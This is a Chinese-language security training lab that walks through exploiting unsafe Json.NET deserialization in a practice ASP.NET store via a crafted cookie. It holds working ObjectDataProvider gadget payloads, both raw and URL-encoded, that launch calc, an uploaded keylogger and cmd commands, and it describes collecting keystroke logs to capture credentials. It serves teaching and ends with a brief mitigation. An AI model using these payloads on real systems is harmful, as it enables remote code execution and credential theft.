




# 透過漏洞來執行遠端程式

## 目標

>反序列化的程式中，如果不注意的話，容易被攻擊者利用，反序列化出非預期的物件，而執行惡意的程式。例如使用 **dynamic or object** 型別的屬性並搭配 Json.NET 的**TypeNameHandling.Objects**
>
>本章練習透過修改 Cookie 的內容來透過反序列化物件時，來執行 Server 端的程式

## 練習步驟

1. 在檢查 Cookie 時，發現有一個 **shippingDetail** 的 Cookie ，它的內容是以 "$type":"MyStore.Domain.Entities." 開頭，是一個完整的 JSON 的物件，而這看起來似乎跟某個 Open Source 的專案類似的寫法(**假設**)。

    

2. 記得那個 Open Source 專案的程式碼會取 Cookie 的值，然後在 Server 端反序列化回來，而類別及反序列化的程式如下，

    ```csharp
    public class ShippingDetails
    {
        public string Name { get; set; }
        public string Tel { get; set; }
        public string CardNumber { get; set; }
        public string  Address { get; set; }
        public bool GiftWrap { get; set; }
        public dynamic Others { get; set; }
    }
    ```

    ```csharp
    var serialSetting = new JsonSerializerSettings();
    serialSetting.TypeNameHandling = TypeNameHandling.Objects;
    viewModel = JsonConvert.DeserializeObject<ShippingDetails>(HttpUtility.UrlDecode(shippingDetailJson), serialSetting);
    ```

    >有 dynamic + TypeNameHandling.Objects 所以可以好好利用一下

3. 因為 **Others** 是 dynamic ，所以可以放入 **System.Windows.Data.ObjectDataProvider** 物件，透過它在建立 Instance 時，來執行 **Process.Start**

    ```javascript
    {Others:{
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib",
            "$values": [
                "calc"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System"
        }
    }}
    ```

    URL Encode 後的值為 **%7bOthers%3a%7b%0d%0a%09%22%24type%22%3a+%22System.Windows.Data.ObjectDataProvider%2c+PresentationFramework%22%2c%0d%0a%09%22MethodName%22%3a+%22Start%22%2c%0d%0a%09%22MethodParameters%22%3a+%7b%0d%0a%09%09%22%24type%22%3a+%22System.Collections.ArrayList%2c+mscorlib%22%2c%0d%0a%09%09%22%24values%22%3a+%5b%0d%0a%09%09%09%22calc%22%0d%0a%09%09%5d%0d%0a%09%7d%2c%0d%0a%09%22ObjectInstance%22%3a+%7b%0d%0a%09%09%22%24type%22%3a+%22System.Diagnostics.Process%2c+System%22%0d%0a%09%7d%0d%0a%7d%7d%0d%0a**

4. 將上面 Encode 過的內容，貼到 **shippingDetail** Cookie 的值之中，並按下 Enter

    

5. 到登入功能，畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | 0002 |
    | Remember me | 不勾選 |

6. 按下 「**Login**」 Button

7. 按下「**Checkout**」Button後，再按下「**Checkout now**」，就可以發現 Server 端的計算計被執行起來了

    

8. 在前一章[透過漏洞來上傳後門程式](s4.md)有上傳 KeyLogger.exe ，所以原本呼叫 Calc 就可以改成呼叫 KeyLogger.exe 。

    ```javascript
    {Others:{
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib",
            "$values": [
                "C:\\Labs\\MyStore\\MyStore.WebUI\\Uploads\\KeyLogger.exe"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System"
        }
    }}
    ```

    >KeyLogger.exe 路徑請依上一章的實際路徑修改

    URL Encode 後的值為
    **%7BOthers%3A%7B%0A%09%22%24type%22%3A%20%22System.Windows.Data.ObjectDataProvider%2C%20PresentationFramework%22%2C%0A%09%22MethodName%22%3A%20%22Start%22%2C%0A%09%22MethodParameters%22%3A%20%7B%0A%09%09%22%24type%22%3A%20%22System.Collections.ArrayList%2C%20mscorlib%22%2C%0A%09%09%22%24values%22%3A%20%5B%0A%09%09%09%22C%3A%5C%5CLabs%5C%5CMyStore%5C%5CMyStore.WebUI%5C%5CUploads%5C%5CKeyLogger.exe%22%0A%09%09%5D%0A%09%7D%2C%0A%09%22ObjectInstance%22%3A%20%7B%0A%09%09%22%24type%22%3A%20%22System.Diagnostics.Process%2C%20System%22%0A%09%7D%0A%7D%7D**

9. 執行 Step 7 ，就可以發現 KeyLogger.exe 被呼叫起來

    

    >註: Windows 會覺得 Keylogger.exe 是惡意程式，會自動將它移除，如果被移除時，請重新建置一份，並手動 Copy 到 Upload 目錄來測試

10. KeyLogger.exe 會將使用者輸入的內容放到 KeyLogger.log 之中，可以透過上一章的 filesBrowser.aspx 來下載它，不一定可以取得系統管理者作業系統的帳號及密碼!

11. 也可以執行一些 Command ，如下，

    ```javascript
    {Others:{
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib",
            "$values": [
                "cmd", "/T:0A /K whoami &echo was HACKED"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System"
        }
    }}
    ```

>註: 針對反序列化時，TypeNameHandling 請設定成 **TypeNameHandling.None** (**todo: Session-8.3**)

[Back](./../../readme.md)
